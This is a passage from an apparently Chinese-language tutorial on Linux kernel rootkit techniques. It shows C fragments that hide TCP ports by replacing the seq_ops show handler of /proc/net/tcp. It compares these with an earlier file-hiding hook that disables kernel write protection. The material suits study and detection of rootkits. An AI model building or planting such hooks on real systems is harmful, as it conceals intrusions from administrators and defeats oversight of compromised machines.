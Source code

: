 这个“钩宏”和之前在隐藏文件实验一节中的宏很类似。Linux 中“一切皆文件”，所以先定义两个指针：

{% highlight c %}
// 隐藏端口实验
struct file *filp;
afinfo_struct *afinfo;
// 隐藏文件实验
struct file *filp;
struct file_operations *f_op;
{% endhighlight %}

然后打开文件：

{% highlight c %}
// 隐藏端口实验
// 隐藏文件实验
filp = filp_open(path, O_RDONLY, 0);
{% endhighlight %}

然后用另一个指针从`file`结构体中获得取得文件处理函数结构体，这里有一些差异，因为之前是普通文件，这里是`tcp_seq_afinfo`，也就是流文件：

{% highlight c %}
// 隐藏端口实验
afinfo = PDE_DATA(filp->f_path.dentry->d_inode)
// 隐藏文件实验
f_op = (struct file_operations *)filp->f_op;
{% endhighlight %}

这里的`PDE_DATA`是从`inode`节点获取对应数据的函数。

之后就是重点，替换：

{% highlight c %}
// 隐藏端口实验
old = afinfo->seq_ops.op;
afinfo->seq_ops.op = new;
// 隐藏文件实验
old = f_op->op;
disable_write_protection();
f_op->op = new;
enable_write_protection();
{% endhighlight %}

上面开关写保护是 novice 师傅加的，可能是需要吧。有兴趣的可以自己去掉那两行试试行不行。

最后就是关闭文件了。这么看来，也很好理解。以后要写别的钩子，我们可以参照这个思路来。先找到相关结构体，包括回调函数的，然后打开文件，替换，关闭文件。

最后在入口出口函数中添加调用代码：

{% highlight c %}
#define NET_ENTRY "/proc/net/tcp"
# define SEQ_AFINFO_STRUCT struct tcp_seq_afinfo
// in init
set_afinfo_seq_op(show, NET_ENTRY, SEQ_AFINFO_STRUCT, fake_seq_show, real_seq_show);
// in exit
if(real_seq_show){
    void *dummy;
    set_afinfo_seq_op(show, NET_ENTRY, SEQ_AFINFO_STRUCT, real_seq_show, dummy);
}
{% endhighlight %}
